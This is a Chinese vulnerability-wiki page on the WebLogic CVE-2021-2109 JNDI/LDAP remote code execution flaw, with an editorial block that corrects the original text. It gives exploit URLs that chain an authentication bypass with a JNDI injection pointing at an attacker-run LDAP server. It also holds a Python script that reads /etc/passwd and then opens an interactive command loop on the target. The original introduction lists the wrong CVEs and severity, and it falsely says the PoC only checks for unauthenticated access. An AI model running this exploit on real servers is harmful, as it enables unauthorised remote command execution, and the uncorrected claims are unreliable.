






# Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

<!-- vulwiki-editorial:start -->
## 校订与适用边界

CVE-2021-2109 单独要求 HTTP Console 高权限访问（Oracle PR:H，7.2）。未认证演示还组合了 CVE-2020-14882 类认证绕过；关闭 T3 不能替代 HTTP Console 补丁。原脚本会读取文件并执行任意交互命令，不是仅做无副作用探测。

- 适用前提：2109 alone: high-privileged Console access over HTTP (OraclePR:H,7.2); unauthenticated variant additionally uses a separate14882-family bypass. Outbound LDAP/gadget/runtime conditions remain required
- 证据范围：Description lists seven other vulnerabilities but omits its own 2109 identity. Body distinguishes logged-in and bypass paths, although framing incorrectly generalizes all cases as unauthenticated.

### 已有来源支持的更正

- Oracle2109 Console HTTP, not exploitable without auth, PR:H, CVSS7.2; not generic unauthenticated T3/IIOP9.8

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Rewrite copied advisory introduction specifically for 2109 and state required privileges versus chained bypass
- Single URL path reachability is not sufficient proof
- Claim POC only checks unauthenticated access is false: it executes cat /etc/passwd then arbitrary interactive commands
- Second function prints Response object, not response.text
- root substring is weak command-success check, Linux-specific
- No exact runtime conditions or specific 2109 patch reference

### 核验来源

- https://www.oracle.com/security-alerts/cpujan2021.html

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

```
WebLogic Server 10.3.6.0.0
WebLogic Server 12.1.3.0.0
WebLogic Server 12.2.1.3.0
WebLogic Server 12.2.1.4.0
WebLogic Server 14.1.1.0.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可




## 漏洞复现

访问一下URL http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal




如果有此页面未授权可访问，且在影响范围内则可能出现漏洞

下载漏洞攻击需要的 LDAP启动脚本

[下载链接](https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11)




下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```




- 部分服务器注意放行端口

然后配合 Weblogic未授权范围 命令执行

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

- 注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;




登录后台可使用此POC，未授权的话用上面的

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

## 漏洞POC 

- 注意参数格式 Ldap >>> ldap://xxx.xxx.xxx;xxx:1389 中的分号
- 如果使用其他的利用Ldap服务请自行更改 POC关键字

- 此POC仅仅检验有未授权的情况

```python
import requests
import sys
import re
requests.packages.urllib3.disable_warnings()
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Weblogic 多个版本                                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mLDAP        >>> ldap://xxx.xxx.xxx;xxx:1389                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "root:" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

def POC_2(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response))
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    ldap_url = str(input("\033[35mLdap >>> \033[0m"))
    POC_1(target_url, ldap_url, cmd="cat /etc/passwd")

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, ldap_url, cmd)
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
